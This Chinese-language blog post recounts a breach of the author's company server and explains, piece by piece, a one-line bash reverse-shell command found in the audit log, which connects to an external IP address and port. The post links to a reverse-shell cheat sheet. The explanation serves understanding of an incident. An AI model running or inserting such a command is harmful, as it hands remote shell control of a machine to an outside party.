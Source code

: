 ```yaml
---
layout: post
title: 单行反弹Shell命令的理解
description: "单行反弹Shell命令的理解"
category: Shell
avatarimg:
tags: [Linux, Shell, Security]
duoshuo: true
---
```


公司的一台服务器被黑客入侵了。。。安全没做好！！！
查看bash审计日志，发现黑客执行的相关命令，其中有一条反弹Shell的命令，在被黑的服务器上执行如下：
> bash -i >& /dev/tcp/173.208.201.162/9083 0>&1 &

执行后的效果就是黑客在自己的机器上利用nc等工具监听9083端口，不仅可以发送命令到被黑服务器上，命令的输出也会回显到黑客的机器上，整个表现就是被黑服务器的Shell反弹到黑客机器上了，和SSH远程登录一台服务器执行命令一样。。。

理解上面的单行命令，费了好半天，看来对bash shell的掌握还不够啊。

- 首先， bash -i开启了Shell的交互模式，这样反弹Shell后，黑客可以和它交互；
- 然后是这段： >& /dev/tcp/173.208.201.162/9083，表示bash打开到远程目标IP端口的TCP连接，并将标准出重定向到远程目标IP端口上；
- 再然后是这段：0>&1，表示标准输入（这个标准输入是在远端执行的）也重定向到远程目标IP端口上？（PS: 这里我不是很好理解，欢迎高手指点下。）
- 最后的&表示后台运行，这样就相当于常驻后台的后门了。

我不得不感叹，第一个想出这种用法的人真是变态啊，算是奇技淫巧，对bash shell的掌握很深入了。

**Refercences:**  
[交互式shell和非交互式shell](http://blog.csdn.net/trochiluses/article/details/13767669)  
[Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)  
[REVERSE SHELL WITH BASH](http://www.gnucitizen.org/blog/reverse-shell-with-bash/)  
[What is the difference between &> and >& in bash?](http://superuser.com/questions/335396/what-is-the-difference-between-and-in-bash)

